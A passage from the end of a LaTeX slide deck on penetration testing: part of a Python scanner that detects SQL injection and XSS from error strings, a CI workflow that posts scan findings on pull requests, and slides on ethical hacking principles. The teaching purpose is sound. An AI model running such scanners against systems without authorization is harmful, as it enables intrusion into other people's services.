                'medium_risk': len([f for f in self.results if f['severity'] == 'Medium']),
                'low_risk': len([f for f in self.results if f['severity'] == 'Low'])
            }
        }
        
        with open('security_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report
    
    def _is_sql_injection(self, response):
        """Check if response indicates SQL injection"""
        sql_indicators = [
            'MySQL',
            'SQL syntax',
            'Warning: mysql',
            'ORA-00936',
            'Microsoft ODBC',
            'PostgreSQL',
            'SQLite'
        ]
        
        return any(indicator in response.text for indicator in sql_indicators)
    
    def _is_xss(self, response):
        """Check if response indicates XSS"""
        return 'XSS' in response.text

# Usage example
if __name__ == "__main__":
    tester = SecurityTester("http://example.com")
    
    # Run tests in parallel
    with ThreadPoolExecutor(max_workers=4) as executor:
        executor.submit(tester.test_sql_injection)
        executor.submit(tester.test_xss)
        executor.submit(tester.run_nmap_scan)
    
    # Generate report
    report = tester.generate_report()
    print(f"Scan completed. Found {report['summary']['total_findings']} vulnerabilities.")
\end{lstlisting}
\column{0.5\textwidth}
\textbf{CI/CD Security Integration:}
\begin{lstlisting}[language=yaml]
# GitHub Actions security workflow
name: Security Testing

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    
    steps:
    - name: Checkout code
      uses: actions/checkout@v3
    
    - name: Set up Python
      uses: actions/setup-python@v4
      with:
        python-version: '3.9'
    
    - name: Install dependencies
      run: |
        python -m pip install --upgrade pip
        pip install requests
    
    - name: Run security tests
      run: |
        python security_tester.py
    
    - name: Upload security report
      uses: actions/upload-artifact@v3
      with:
        name: security-report
        path: security_report.json
    
    - name: Comment on PR
      if: github.event_name == 'pull_request'
      uses: actions/github-script@v6
      with:
        script: |
          const fs = require('fs');
          const report = JSON.parse(fs.readFileSync('security_report.json', 'utf8'));
          
          let comment = `## Security Scan Results\n\n`;
          comment += `**Total Findings:** ${report.summary.total_findings}\n`;
          comment += `**High Risk:** ${report.summary.high_risk}\n`;
          comment += `**Medium Risk:** ${report.summary.medium_risk}\n`;
          comment += `**Low Risk:** ${report.summary.low_risk}\n\n`;
          
          if (report.summary.high_risk > 0) {
            comment += `⚠️ **High risk vulnerabilities found!** Please address these before merging.\n\n`;
          }
          
          comment += `### Detailed Findings:\n\n`;
          
          for (finding of report.findings) {
            comment += `- **${finding.type}**: ${finding.url}\n`;
            comment += `  - Severity: ${finding.severity}\n`;
            comment += `  - Payload: ${finding.payload}\n\n`;
          }
          
          github.rest.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: comment
          });
\end{lstlisting}
\end{columns}
\end{frame}

\begin{frame}{Hacking Methodology Best Practices}
\begin{columns}
\column{0.5\textwidth}
\textbf{Ethical Hacking Principles:}
\begin{enumerate}
\item \textbf{Authorization}
\begin{itemize}
\item[\faIcon{check-circle}] Written permission required
\item[\faIcon{check-circle}] Scope clearly defined
\item[\faIcon{check-circle}] Time boundaries set
\item[\faIcon{check-circle}]{Non-disclosure agreements}
\end{itemize}
\item \textbf{Methodology}
\begin{itemize}
\item[\faIcon{check-circle}] Structured approach
\item[\faIcon{check-circle}] Comprehensive testing
\item[\faIcon{check-circle}] Proper documentation
\item[\faIcon{check-circle}]{Risk assessment}
\end{itemize}
\item \textbf{Tool Usage}
\begin{itemize}
\item[\faIcon{check-circle}] Select appropriate tools
\item[\faIcon{check-circle}] Configure tools properly
\item[\faIcon{check-circle}] Understand tool limitations
\item[\faIcon{check-circle}]{Validate results manually}
\end{itemize}
\item \textbf{Reporting}
\begin{itemize}
\item[\faIcon{check-circle}] Clear and concise reports
\item[\faIcon{check-circle}] Risk-based prioritization
\item[\faIcon{check-circle}] Remediation guidance
\item[\faIcon{check-circle}]{Follow-up procedures}
\end{itemize}
\column{0.5\textwidth}
\textbf{Security Testing Guidelines:}
\begin{enumerate}
\item \textbf{Preparation}
\begin{itemize}
\item[\faIcon{check-circle}] Gather requirements
\item[\faIcon{check-circle}] Review documentation
\item[\faIcon{check-circle}] Set up test environment
\item[\faIcon{check-circle}] Prepare test cases
\end{itemize}
\item \textbf{Execution}
\begin{itemize}
\item[\faIcon{check-circle}] Follow methodology
\item[\faIcon{check-circle}] Document findings
\item[\faIcon{check-circle}] Validate results
\item[\faIcon{check-circle}] Avoid system damage
\end{itemize}
\item \textbf{Post-Testing}
\begin{itemize}
\item[\faIcon{check-circle}] Analyze results
\item[\faIcon{check-circle}] Create reports
\item[\faIcon{check-circle}] Recommend fixes
\item[\faIcon{check-circle}] Verify remediation
\end{itemize}
\item \textbf{Continuous Improvement}
\begin{itemize}
\item[\faIcon{check-circle}] Review methodology
\item[\faIcon{check-circle}] Update tools
\item[\faIcon{check-circle}] Learn new techniques
\item[\faIcon{check-circle}]{Share knowledge}
\end{itemize}
\end{enumerate}
\end{columns}
\end{frame}

\begin{frame}{Summary and Key Takeaways}
\begin{columns}
\column{0.5\textwidth}
\textbf{Hacking Methodology:}
\begin{itemize}
\item[\faIcon{search}] Reconnaissance and information gathering
\item[\faIcon{radar}] Scanning and enumeration
\item[\faIcon{bomb}] Exploitation and post-exploitation
\item[\faIcon{clipboard-check}]{Documentation and reporting}
\end{itemize}
\textbf{Security Tools:}
\begin{itemize}
\item[\faIcon{tools}] Burp Suite for web application testing
\item[\faIcon{tools}] OWASP ZAP for automated scanning
\item[\faIcon{tools}] Metasploit for penetration testing
\item[\faIcon{tools}]{Nmap for network reconnaissance}
\end{itemize}
\column{0.5\textwidth}
\textbf{Practical Skills:}
\begin{itemize}
\item[\faIcon{laptop-code}] Hands-on penetration testing
\item[\faIcon{tools}] Security tool proficiency
\item[\faIcon{shield-alt}] Vulnerability identification
\item[\faIcon{clipboard-check}]{Real-world attack simulation}
\end{itemize}
\textbf{Next Steps:}
\begin{itemize}
\item[\faIcon{arrow-right}] Practice on vulnerable applications
\item[\faIcon{arrow-right}] Obtain certifications (OSCP, CEH)
\item[\faIcon{arrow-right}] Join security communities
\item[\faIcon{arrow-right}]{Continuous learning and improvement}
\end{itemize}
\end{columns}
\vspace{0.5cm}
\begin{center}
\Large{\textbf{Questions?}}\\
\vspace{0.3cm}
\normalsize{Contact: security-team@organization.com}\\
\vspace{0.2cm}
\small{Additional Resources: Offensive Security, PentesterLab, Hack The Box}
\end{center}
\end{frame}

\end{document}